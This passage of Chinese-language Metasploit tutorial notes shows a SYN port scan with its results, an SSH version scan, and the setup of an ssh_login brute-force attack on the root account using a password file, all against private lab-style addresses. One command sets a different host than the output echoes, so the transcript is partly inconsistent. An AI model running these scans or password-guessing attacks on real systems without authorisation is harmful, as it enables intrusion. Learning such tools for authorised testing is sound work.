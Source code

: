 ```bash
msf > use scanner/portscan/syn
```

### 设定RHOST参数为192.168.119.132，线程数为50

```bash
RHOSTS => 192.168.119.132
msf  auxiliary(syn) > set THREADS 50
THREADS => 50
msf  auxiliary(syn) > run
 
[*]  TCP OPEN 192.168.119.132:80
[*]  TCP OPEN 192.168.119.132:135
[*]  TCP OPEN 192.168.119.132:139
[*]  TCP OPEN 192.168.119.132:1433
[*]  TCP OPEN 192.168.119.132:2383
[*]  TCP OPEN 192.168.119.132:3306
[*]  TCP OPEN 192.168.119.132:3389
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```







## MetaSploit进行SSH服务扫描

参考链接：CSDN：WEL测试：[使用Kali上的Metasploit获取ssh登录到靶机权限](https://blog.csdn.net/henni_719/article/details/88916095)



ssh服务常用端口为22：

```bash
msf6 auxiliary(scanner/telnet/telnet_version) > use auxiliary/scanner/ssh/ssh_version 
msf6 auxiliary(scanner/ssh/ssh_version) > show options

Module options (auxiliary/scanner/ssh/ssh_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    22               yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)
   TIMEOUT  30               yes       Timeout for the SSH probe

msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.1.0.1
RHOSTS => 192.168.0.50
msf6 auxiliary(scanner/ssh/ssh_version) > set THREADS 50
THREADS => 50
msf6 auxiliary(scanner/ssh/ssh_version) > run

[+] 192.168.0.50:22       - SSH server version: SSH-2.0-OpenSSH_7.4 ( service.version=7.4 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:7.4 service.protocol=ssh fingerprint_db=ssh.banner )
[*] 192.168.0.50:22       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_version) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 50
THREADS => 50
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /root/big.txt
```